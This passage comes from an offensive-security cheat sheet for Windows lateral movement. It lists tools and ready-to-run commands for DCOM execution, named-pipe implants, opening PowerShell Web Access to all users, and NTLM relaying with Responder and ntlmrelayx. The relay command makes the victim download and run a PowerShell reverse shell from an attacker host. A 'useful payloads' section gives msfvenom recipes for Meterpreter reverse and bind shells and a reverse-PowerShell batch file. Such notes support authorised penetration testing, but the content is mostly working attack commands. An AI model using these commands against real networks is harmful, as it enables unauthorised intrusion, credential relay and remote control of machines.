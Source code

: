 ### DCOM
- https://github.com/SecureAuthCorp/impacket dcom.exec.py
- https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1

### Named Pipes
- https://github.com/nettitude/PoshC2/blob/master/resources/modules/Invoke-Pbind.ps1

```
Invoke-Pbing -Target <TARGET> -Domain <DOMAIN> -User <USER> -Password <PASSWORD>
```

### Powershell Web access
- PSWA runs on port 443 on ```/pswa```

#### Install Powershel web access on target
```
Install-WindowsFeature -Name WindowsPowerShellWebAccess
Instal-PswaWebApplication -useTestCertificate
Add-PswaAuthorizationRule -Username <USERNAME> -Computername <COMPUTER> -ConfigurationName <CONFIG NAME>

# Allow everyone (Still requires localadmin on target server)
Add-PswaAuthorizationRule -Username * -Computername * -ConfigurationName *
```

#### Access PSWA
- Go to ```https://<IP>/pswa``` and then login using ```<DOMAIN>/<USER>```

### NTLM Relaying
- https://github.com/lgandx/Responder
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py

#### Crackmapexec list hosts with SMB signed disabled
```
crackmapexec smb <CIDR> --gen-relay-list <OUTPUT FILE>
```

- Edit Responder config file to disable HTTP server and SMB server

#### Run NTLM Relay
```
ntlmrelay.py -t <TARGET> -c 'powershell.exe iex (New-Object.Net.Webclient).Downloadstring(\"http://<ATTACKER IP>/Invoke-PowerShellTcp.ps1\")"' -smb2support 
```
 
#### Run Responder
```
responder -I <INTERFACE> -v
```

#### Usefull payloads
```
# Meterpreter ps1 rev shell
msfvenom -p windows/x64/meterpreter_reverse_https -f psh -o msf.ps1 lhost=<HOST> lport=<PORT> exitfunc=thread

# Meterpreter bind tcp executable
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=<HOST> LPORT=<PORT> -f exe -o bind_tcp.exe

# Meterpreter reverse tcp executable
Msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<HOST> LPORT=<PORT> -f exe > shell.exe

# Bat file to run reverse powershell
msfvenom -p cmd/windows/reverse_powershell LHOST=<HOST> LPORT=<PORT> > attach.bat
```
